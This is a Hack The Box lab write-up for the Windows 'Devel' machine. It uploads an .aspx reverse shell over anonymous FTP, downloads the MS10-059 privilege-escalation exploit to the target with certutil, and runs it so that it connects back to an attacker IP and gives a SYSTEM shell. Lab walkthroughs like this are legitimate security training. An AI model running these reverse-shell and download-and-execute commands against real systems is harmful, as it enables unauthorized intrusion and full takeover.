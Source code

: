 # Devel [HTB](https://app.hackthebox.com/machines/Devel). 
![devel-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/devel-01.png)



## Recon

Lets kick off our enumeration stage with `nmap`.

`nmap -sC -sV -p -A 10.129.141.58 -oN nmap.result`


![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/nmap-res-02.png)



We have the following:

+ An FTP server with anonymous logins on port 21.
+ An IIS web server on port 80.

Lets start by connecting to the FTP and see if we can write files, or find anything interesting. 



### FTP 

Lets login: 

![ftp-login-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/ftp-login-03.png)



This is the root of the web server, `iisstart.htm` is the html for the site.
The `welcome.png` is what we see if we open the site: 

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/site-04.png)


If we can upload files to the FTP, we might be able to access them from the URL.
Lets see if we can write to the FTP: 

![ftp-put-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/ftp-put-05.png)



We can. Next logical step is to upload a reverse shell and run it from the URL.
Since this is a Microsoft IIS server we should use an `.aspx` reverse shell. 

`.aspx` are webpages generated by the ASP.NET framework running on Microsoft web servers. 
When we access a `.aspx` file via the URL, it should render out the webpage, 
(A.K.A executing the file...)


I found a great `.aspx` reverse shell [here](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx). Make sure to update your IP and port: 

![aspx-sock-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/aspx-sock-05.png)



Lets upload it via the FTP: 

![aspx-upload-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/aspx-upload-06.png)


Setup the listener with `nc -lnvp 9001`


And navigate to the file via the browser at `http://10.129.141.111/rshell.aspx` : 

![browse-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/browse-07.png)



It stalls, great sign, lets check the listener: 

![shell-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/shell-08.png)



We get a shell! Lets move to privilege escalation. 



## Privilege Escalation

In order to run winpeas we need a .NET version of 4.5.2 or higher, which we dont have:


`reg query "HKLM\SOFTWARE\Microsoft\Net Framework Setup\NDP"`

![net-ver-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/net-ver-09.png)



So we cant run winpeas, how about PoweUp?, for that we need a powershell session. 
Trying to load a powershell session stalls indefinitely:

![ps-stall-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/ps-stall-10.png)



So we cant run winpeas and we cant run powershell. lets try running [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester). 

(make sure you install xlrd with `pip2 install xlrd==1.2.0`)


First we need to save the output of `systeminfo` from the target to a file on our attack machine. 
then we can run the exploit-suggester as such: 

`./windows-exploit-suggester.py --database 2023-07-18-mssb.xls --systeminfo systeminfo.txt`


![sugg-res-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/sugg-res-11.png)


Iv'e highlighted `ms10-059`, this vulnerability lays in the `Tracing for Services` feature on
Windows systems. This happens because the feature incorrectly places ACL's on registry keys,
which allows attackers to execute code with elevated privileges. As well unsafe memory allocation when processing craftred long strings.    

You can find the exploit [here](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059) save the `MS10-059.exe` file to your attack machine.


Lets transfer the exploit to our target machine. 
open an http server locally with `python3 -m http.server 8888`.

`cd` into a writable directory `cd c:\\windows\\temp` and download the exploit from the target with:
`certutil -urlcache -f http://10.10.14.21:8888/MS10-059.exe ms.exe`

![transfer-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/transfer-12.png)


Start up the listener on the attack machine with `nc -lnvp 443`.

And run the exploit with `ms.exe 10.10.14.21 443`

![run-exploit-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/run-exploit-13.png)


Lets check the listener: 

![root-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Devel/img/root-14png.png)


We got system! 
